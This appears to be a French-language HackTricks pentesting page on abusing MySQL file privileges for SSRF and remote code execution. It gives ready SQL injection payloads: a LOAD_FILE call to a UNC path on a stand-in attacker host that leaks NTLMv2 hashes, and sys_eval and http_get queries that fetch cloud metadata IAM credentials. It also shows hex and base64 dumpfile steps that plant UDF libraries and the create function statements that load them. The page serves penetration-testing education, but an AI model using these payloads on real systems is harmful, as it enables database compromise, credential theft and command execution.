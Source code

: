 # MySQL File priv to SSRF/RCE

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### LOAD\_FILE/LOAD DATA/LOAD XML vers SSRF

Chaque article d'exfiltration de données SQL Out of Band utilisera la fonction de chaîne `LOAD_FILE()` pour effectuer une requête réseau. La fonction elle-même a ses propres limitations en fonction du système d'exploitation sur lequel elle est exécutée et des paramètres avec lesquels la base de données a été démarrée.

Par exemple, si la variable globale `secure_file_priv` n'a pas été définie, [la valeur par défaut est définie sur `/var/lib/mysql-files/`](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html), ce qui signifie que vous ne pouvez utiliser que des fonctions telles que `LOAD_FILE('nom_fichier')` ou `LOAD DATA [LOCAL] INFILE 'nom_fichier' INTO TABLE nom_table` pour lire des fichiers du répertoire `/var/lib/mysql-files/`. Pour pouvoir effectuer des lectures sur des fichiers en dehors de ce répertoire, l'option `secure_file_priv` doit être définie sur `""`, ce qui ne peut être fait qu'en mettant à jour le fichier de configuration de la base de données ou en passant le paramètre de démarrage `--secure_file_priv=""` au service de base de données.

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/2.png)

Néanmoins, dans les circonstances où `secure_file_priv` est défini sur `""`, nous devrions pouvoir lire d'autres fichiers sur le système, en supposant que les autorisations de lecture de fichier et `file_priv` sont définies sur `Y` dans `mysql.user` pour l'utilisateur de la base de données actuel. Cependant, la possibilité d'utiliser ces fonctions pour effectuer des appels réseau dépend beaucoup du système d'exploitation. Comme ces fonctions sont conçues uniquement pour lire des fichiers, les seuls appels réseau pertinents qui peuvent être effectués sont vers des chemins UNC sur des hôtes Windows, car [l'API Windows `CreateFileA` appelée lors de l'accès à un fichier comprend les conventions de dénomination UNC](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file).

Ainsi, si votre base de données cible s'exécute sur une machine Windows, la requête d'injection `x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //` [entraînerait l'envoi par la machine Windows des hachages NTLMv2 dans une tentative d'authentification avec le `\\attackerserver.example.com` contrôlé par l'attaquant](https://packetstormsecurity.com/files/140832/MySQL-OOB-Hacking.html).

Cette falsification de requête côté serveur, bien qu'utile, est limitée au seul port TCP 445. Vous ne pouvez pas contrôler le numéro de port, mais vous pouvez lire des informations à partir de partages configurés avec des privilèges de lecture complets. De plus, comme l'ont montré des recherches plus anciennes, vous pouvez utiliser cette capacité SSRF limitée pour voler des hachages et les relayer pour obtenir des shells, donc c'est certainement utile.

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/3.png)

### Fonctions définies par l'utilisateur vers RCE

Une autre technique intéressante avec les bases de données MySQL est la possibilité d'utiliser des fonctions définies par l'utilisateur (UDF) présentes dans des fichiers de bibliothèque externes qui, s'ils sont présents dans des emplacements spécifiques ou dans le $PATH système, peuvent être accessibles depuis MySQL.

Vous pouvez utiliser une injection SQL pour **écrire une bibliothèque (`.so` ou `.dll`** selon Linux ou Windows), contenant une fonction définie par l'utilisateur qui peut effectuer des requêtes réseau/HTTP, qui peuvent ensuite être invoquées par le biais de requêtes supplémentaires.

Cela a ses propres restrictions. En fonction de la version de MySQL, que vous pouvez identifier avec `select @@version`, le répertoire à partir duquel les plugins peuvent être chargés est restreint. MySQL inférieur à `v5.0.67` permettait le chargement de fichiers de bibliothèque à partir du chemin système si la variable `plugin_dir` n'était pas définie. Cela a maintenant changé et les nouvelles versions ont la variable **`plugin_dir`** définie sur quelque chose comme `/usr/lib/mysql/plugin/`, qui est généralement détenu par root.

Fondamentalement, **pour charger une bibliothèque personnalisée dans MySQL et appeler une fonction de la bibliothèque chargée via une injection SQL, vous auriez besoin de** :

* la possibilité d'**écrire dans l'emplacement** spécifié dans **`@@plugin_dir`** via une injection SQL
* **`file_priv`** défini sur **`Y`** dans `mysql.user` pour l'utilisateur de la base de données actuel
* **`secure_file_priv`** défini sur **`""`** afin de pouvoir lire les octets bruts de la bibliothèque à partir d'un emplacement arbitraire comme le réseau ou un répertoire de téléchargement de fichiers dans une application web.

En supposant que les conditions ci-dessus sont remplies, vous pouvez utiliser l'approche **classique de transfert de la** [**bibliothèque UDF MySQL populaire `lib_mysqludf_sys`**](https://github.com/mysqludf/lib\_mysqludf\_sys) **vers le serveur de base de données**. Vous pourriez ensuite effectuer des requêtes de commandes système comme `cURL` ou `powershell wget` pour effectuer une SSRF en utilisant la syntaxe suivante :

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

Il existe de nombreuses autres fonctions déclarées dans cette bibliothèque, une analyse desquelles peut être consultée [ici](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/). Si vous êtes paresseux comme moi, vous pouvez obtenir une copie de cette bibliothèque UDF, pour le système d'exploitation cible, à partir d'une installation Metasploit du répertoire `/usr/share/metasploit-framework/data/exploits/mysql/` et vous lancer.

Alternativement, des bibliothèques UDF ont été créées spécifiquement pour permettre à la base de données d'effectuer des requêtes HTTP. Vous pouvez utiliser [MySQL User-defined function (UDF) for HTTP GET/POST](https://github.com/y-ken/mysql-udf-http) pour permettre à la base de données d'effectuer des requêtes HTTP, en utilisant la syntaxe suivante :

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

Vous pouvez également [créer votre propre UDF et l'utiliser également pour l'exploitation postérieure.](
Dans tous les cas, vous devez transférer la bibliothèque vers le serveur de base de données. Vous pouvez le faire de plusieurs manières :

1. Utilisez la fonction de chaîne MySQL `hex()` ou quelque chose comme `xxd -p filename.so | tr -d '\n'` pour convertir le contenu de la bibliothèque en format hexadécimal, puis le déposer dans le répertoire `@@plugin_dir` en utilisant `x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`
2. Alternativement, convertissez le contenu de `filename.so` en base64 et utilisez `x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`

Si le répertoire `@@plugin_dir` n'est pas accessible en écriture, vous êtes malchanceux si la version est supérieure à `v5.0.67`. Sinon, écrivez dans un emplacement différent qui est dans le chemin et chargez la bibliothèque UDF à partir de là en utilisant :

* pour la bibliothèque `lib_mysqludf_sys` - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* pour la bibliothèque `mysql-udf-http` - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/4.png)

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/5.png)

Pour automatiser cela, vous pouvez utiliser SQLMap qui prend en charge [l'utilisation de UDF personnalisées via l'option `--udf-inject`](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Pour les injections SQL aveugles, vous pouvez rediriger la sortie des fonctions UDF vers une table temporaire, puis lire les données à partir de là ou utiliser [une requête DNS dissimulée dans une commande curl `sys_eval` ou `sys_exec`](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration).

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
